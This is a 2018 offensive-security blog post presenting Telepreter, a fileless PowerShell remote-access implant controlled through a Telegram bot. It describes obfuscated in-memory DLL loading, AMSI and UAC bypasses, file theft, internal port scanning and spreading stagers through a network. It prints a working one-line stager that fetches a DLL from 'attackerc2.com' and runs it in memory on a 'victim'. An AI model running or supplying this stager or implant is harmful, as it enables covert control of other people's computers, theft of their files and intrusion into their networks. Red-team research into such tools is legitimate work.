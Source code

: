 ```yaml
---
layout: post
title:  "Pwning computers using Telegram bot API"
date:   2018-12-10 18:30:00 -0300
categories: tools
---
```


# Introduction

In this post I will share some experience I had while working on a project named Telepreter. Telepreter is a PowerShell Runspace that uses Telegram bot API as transport and communications and C# DLL reflection to stay in-memory. So you can control your shells with a Telegram group and a single bot.

Even further, I tried to add my favorite tools into it. So it has builtin AMSI and UAC bypasses from my earlier blog posts and some other excellent tools that I like very much like PowerView and PowerPreter.

Side-Note: This is just a PoC, and an idea that I wanted to make it happen. I do not intend to develop further into it.

# Building a Telegram Bot with PowerShell execution capabilities

So I decided to build a Telegram bot, capable of remote controlling a Windows computer. But more importantly that I wanted it fileless, so I chose using C# + PowerShell again, so we can operate in-memory and not rely at all with disk.


## Telegram API
I researched some libraries in C# that might suit my need, and found one that had all the functionalities that I wished for in this [repository](https://github.com/TelegramBots/Telegram.Bot);

After compiling the code, I had a Telegram.Bot.dll and NewtonSoft.dll which are dependencies.

## Initial problems

I had to work out with loading these DLL's in a manner that would not drop anything on disk. So I resorted to Reflection (again...).

Compressing and obfuscating all the DLL code into a base64 string constant value, I am able create a function that can load this assemblies in memory so we won't have any exception when Telegram API functions are invoked.

![Screenshot](/assets/telepreter_004.JPG)

## Crafting a small fileless Powershell stager payload

To start a new bot instance on our victim, all it needs to be executed is the following line in PowerShell:
```powershell
[Reflection.Assembly]::Load((iwr attackerc2.com/telepreter.dll).Content)/[Telepreter.Agent]::Load();[Telepreter.Agent]::new().Start()
```

Which in turn, I developed and integrated into the bot a function to create a stager payload.

![Screenshot](/assets/telepreter_006.JPG)

This way, an attacker can create .bat which could be used to infect more computers inside the network or spawning elevated bot instances (more on this later)

# Core functionalities 

## How to control the bot

To execute a command, simply type `/bot:BOT_ID /shell PowerShellCommandHere`
    
PS: Dont worry about output size. The bot will send 200 lines once a second, so every output is sent to you!

![Screenshot](/assets/telepreter_009.JPG)

## How to download files

To download a file, simply type `/bot:BOT_ID /download C:\windows\system32\license.rtf` and Bot will send this file in group using Telegram file upload API!

![Screenshot](/assets/telepreter_010.JPG)

## How to Port Scan with it!

It is also useful for Recon, too! There is a sightly modified version of Invoke-Portscan from Nishang pack. No need to do fancy pivoting tricks to scan the internal network!

![Screenshot](/assets/telepreter_011.JPG)


## How to bypass UAC with it!

Check how I bypassed UAC in a Lab computer that was infected with it!

![Screenshot](/assets/telepreter_007.JPG)

In the above picture, I created a .bat stager that resided in the user temporary folder. This tiny stager will fetch the DLL using the supplied URL and then use reflection to load all dependencies and start the main function of the bot.

![Screenshot](/assets/telepreter_008.JPG)

Looking the picture above, it is possible to observe that a new instance of a bot has started. And the `Administrator` flag is set to True, which means this is an elevated session and we can use post-exploitation tools like Invoke-Mimikatz or others that require elevated privileges to work. To avoid having problems with multiple instances, never stay with more than one active session.


# Conclusion and Code

This concludes the demonstration of this fun project I was working for a few days. Feel free to dig into it as much you want to. Probably a lot of people are going to say that it is crappy code... but it really is! I am no professional programmer.

It is just an demonstration of how something like that could work. Of course that there are a ton of better ways of doing it. So feel free to do it if you like!

To get access to the source-code: [Link](https://github.com/0x00-0x00/Telepreter)

## To start your own bot

Just replace the following values in the code:

![Screenshot](/assets/telepreter_012.JPG)


Have fun.

Best regards,

zc00l.